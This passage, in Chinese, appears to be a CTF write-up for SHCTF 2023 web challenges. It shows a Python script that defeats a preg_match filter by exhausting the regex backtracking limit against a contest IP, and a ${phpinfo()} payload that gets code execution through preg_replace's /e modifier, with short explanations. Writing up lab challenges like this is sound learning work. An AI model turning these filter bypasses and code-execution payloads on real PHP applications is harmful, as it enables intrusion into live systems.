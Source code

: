 这题利用正则最大回溯绕过，`.+?`是正则表达式的贪婪模式

[利用正则回溯最大次数上限绕过preg_match](https://xz.aliyun.com/t/10219)

绕过脚本

```
import requests

payload = {
    'c_ode': 'v' * 1000000+'2023SHCTF'
}

url = 'http://112.6.51.212:30933/?num[]=1'

res = requests.post(url=url,data=payload)
print(res.text)
```

### ezphp

```
$code=$_GET['code'];
preg_replace('/(' . $pattern . ')/ei','print_r("\\1")', $code); 
```

这题主要是`preg_replace`函数的/e模式可以执行代码

payload：

```
$patrern=\S*  \S代表匹配非空字符
$code=${phpinfo()}
```

贴个链接

[深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

为什么是`{phpinfo()}`

这里是php可变变量问题，`{}`会获取`{}`内的值当作变量解析

`\\1`这里其实就是`\1`，\1在在正则表达式中有自己的含义

贴 [**W3Cschool**](https://www.w3cschool.cn/zhengzebiaodashi/regexp-syntax.html) 

```
反向引用
  对一个正则表达式模式或部分模式 两边添加圆括号将导致相关匹配存储到一个临时缓冲区 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。
```

根据上面的解释，那这里的\1就是第一个匹配项，最后的语句是

`preg_replace('/(\S*)/ei', 'print_r("\\1")', ${phpinfo()});`

## Week2
